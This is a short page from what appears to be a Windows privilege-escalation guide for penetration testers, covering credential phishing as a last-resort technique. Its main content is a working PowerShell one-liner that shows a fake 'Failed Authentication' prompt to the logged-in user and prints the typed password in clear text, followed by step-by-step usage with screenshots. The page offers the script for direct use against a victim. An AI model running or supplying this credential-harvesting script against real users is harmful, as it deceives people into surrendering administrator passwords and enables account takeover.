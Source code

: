 # Phishing

As a last resort, when all other privilege escalation options have been exhausted, phishing attacks can be used to trick the user into entering administrator credentials by posing as a legitimate request. This technique can raise suspicion due to unusual behavior and may jeopardize the initial foothold.

### Attack

The following script will prompt the user to input their credentials, masquerading as a legitimate application:

```powershell
$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password

# To collect the credentials
$cred.GetNetworkCredential() | fl
```

## Example

Initially, copy and paste the first line of the suggested script.

![](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/others/phising_1.png)

When executed, a prompt will appear on the user's screen asking for credentials to access something.

![](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/others/phising_2.png)

If the victim falls for it and types in their credentials, they will be recovered using the second line of the suggested script.

![](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/others/phising_3.png)
